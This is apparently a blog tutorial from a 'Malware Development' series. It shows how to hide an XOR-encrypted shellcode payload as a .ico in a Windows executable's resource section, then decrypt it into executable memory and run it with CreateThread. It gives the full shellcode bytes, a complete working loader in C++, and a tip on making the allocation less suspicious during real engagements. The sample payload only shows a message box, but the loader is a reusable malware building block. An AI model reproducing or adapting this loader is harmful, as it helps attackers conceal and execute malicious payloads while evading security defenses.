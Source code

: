 ```yaml
---
title: "Malware Development: Crafting Digital Chaos 0x3: Embedding encrypted payloads in resource section"
classes: wide
header:
  teaser:  /assets/images/itc.png
ribbon: black
description: "Article 3 of Malware Development series"
categories:
  - Malware Development
tags:
  - Malware Development
  - Shellcode
  - Execution
  - XOR
  - Encryption
  - WinAPI
  - C++
toc: true
---
```

# Payload placement: .rsrc section

This is a popular way of placement used widely among malware authors,
The resource section of the executable is a section that is meant to store non-executable files, icon files, bitmaps and so on.

Malware authors tend to use it to store their payload but mostly in an encrypted form, that provides a level of obscurity, Also most malware families nowadays has many versions or releases, and having a payload in resource section makes it easy for a malware author to modify the functionality of the payload, he will simply need to just change the resources content, and not the code itself.

For this article we'll work with a **MessageBox** payload we have been using earlier, but this time let's append a simple layer of obfuscation, take this payload, XOR it with the value: "**XYZ**" and save the file as a `.ico`.

```cpp
unsigned char buf[] = 
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\xfe\x00\x00\x00\x3e"
"\x4c\x8d\x85\x15\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
"\x56\x07\xff\xd5\x48\x31\xc9\x41\xba\xf0\xb5\xa2\x56\xff"
"\xd5\x43\x52\x41\x46\x54\x49\x4e\x47\x20\x44\x49\x47\x49"
"\x54\x41\x4c\x20\x43\x48\x41\x4f\x53\x00\x4d\x65\x73\x73"
"\x61\x67\x65\x42\x6f\x78\x00";
```

# Adding a resource to our project

Click on  **Resources File** -> **Add** -> **Netw Item**
[P1](/assets/images/malware-development/3-0.png)

Choose **Resource File** and once you get a column on the right hand side right clikc on Resource.rc and add the resource -> import your .ico and specify its type as `RCDATA`.

[P2](/assets/images/malware-development/3-1.png)
[P3](/assets/images/malware-development/3-2.png)

After we have added our encrypted .ico file we need to be able to retrieve its contents in order to decrypt it and finally execute it.

# Retrieving payload contents

Our process will be as follows:

- **FindResourceW** API call: locate the resource using its ID and type.
- **LoadResource** API call: Load the contents of our resource file to memory.
- **LockResource** API call: obtain a pointer to the data.
- Allocate memory out of .rsrc section and copy our data.
- Begin execution.

## Locating resource

```cpp
HRSRC hRsrc = FindResourceW(NULL,MAKEINTRESOURCE(IDR_RCDATA1), RT_RCDATA);
```
"HRSRC" type stands for "Handle to a Resource." It represents a handle to a resource that is loaded, and The `MAKEINTRESOURCE` macro is a utility macro for converting an integer value into a resource identifier at this case we passed `IDR_RCDATA1` which is teh ID of our resource, we can find the ID in the `resource.h` file (**Do not forget to include it**).
[P4](/assets/images/malware-development/3-4.png)

The last parameter is just the type of the resource and we specified that earlier when we first imported our resource.

## Loading resource contents

We use this code and pass the handle we got above:
```cpp
HGLOBAL hGRsrc = LoadResource(NULL, hRsrc);
```
## Obtain a pointer

```cpp
PVOID RsrcAd = LockResource(hGRsrc);
```
The variable **RsrcAd** will point to our data, but it will still be a pointer inside .rsrc section, to do any operations on the data such as writing, decrypting, executing, etc. We better allocate a memory region and copy our data to that region.

For this we can simply use **VirtualAlloc()** or any other memory allocation API.

## Decrypting the payload

Before allocating memory we need to calculate the size of our resource:

```cpp
DWORD dwSize = SizeofResource(NULL, hRsrc);
```
Then using **VirtualAlloc()**.
```cpp
PVOID pAddress = VirtualAlloc(NULL, dwSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```

> Again: passing **PAGE_EXECUTE_READWRITE** is a big red flag, this is usually not the best way to do memory allocation, instead in real life engagements we better use **PAGE_READWRITE** then changing the memory protection using **VitualProtect()**.

Then copy the data to that region:

```cpp
memcpy(pAddress, RsrcAd, dwSize);
```
We need to implement a function that will take the encrypted data, the key and decrypt our payload:

```cpp
VOID XOR(IN PBYTE pBytes, IN DWORD dwSize, IN char* pKey) {

  for (int i=0;i < dwSize;i++) {
    pBytes[i] = pBytes[i] ^ pKey[i % 3];
  }
}
```
Pass the address and key to decrypt:
```cpp
char key[] = "XYZ"; 
XOR((PBYTE)pAddress, dwSize, key);
```

# Execution

After we have prepare everything let's do a quick test to see the payload before and after decryption, make sure it is decrypted successfully.

toggle a breakpoint before and after the XOR operation and check the payload in memory:
Before:
[P5](/assets/images/malware-development/3-5.png)
After:
[P6](/assets/images/malware-development/3-6.png)

Now as we see, we have successfully decrypted our payload, and already it's in an executable region of memory, we can simply execute it now with **CreateThread()** API call.
```cpp
if (CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)pAddress, NULL, NULL, NULL) == NULL) {
    printf("CeateThread Failed with Error %x", GetLastError());
    return -1;
  };
```
And always remember to trace the execution using a debugger to confirm everything is working properly :) .
[P6](/assets/images/malware-development/3-7.png)
Final Code:

```cpp
#include <Windows.h>
#include "resource.h"
#include <stdio.h>

VOID XOR(IN PBYTE pBytes, IN DWORD dwSize, IN char* pKey) {

  for (int i=0;i < dwSize;i++) {
    pBytes[i] = pBytes[i] ^ pKey[i % 3];
  }
}

int main()
{
  HRSRC hRsrc = FindResourceW(NULL, MAKEINTRESOURCE(IDR_RCDATA1), RT_RCDATA);

  if (hRsrc == NULL) {
    printf("FindResouceW failed with error: %x", GetLastError());
    return -1;
  }

  HGLOBAL hGRsrc = LoadResource(NULL, hRsrc);

  if (hGRsrc == NULL) {
    printf("LoadResource failed with error: %x", GetLastError());
    return -1;
  }

  PVOID RsrcAd = LockResource(hGRsrc);

  if (RsrcAd == NULL) {
    printf("failed loading resource, error: %x", GetLastError());
    return -1;
  }

  DWORD dwSize = SizeofResource(NULL, hRsrc);

  if (dwSize == NULL) {

    printf("SizeofResource failed with error: %x", GetLastError());
    return -1;
  }

  PVOID pAddress = VirtualAlloc(NULL, dwSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

  memcpy(pAddress, RsrcAd, dwSize);

  char key[] = "XYZ";
  
  XOR((PBYTE)pAddress, dwSize, key);
  
  if (CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)pAddress, NULL, NULL, NULL) == NULL) {
    printf("CeateThread Failed with Error %x", GetLastError());
    return -1;
  };

  return 1;
}
```
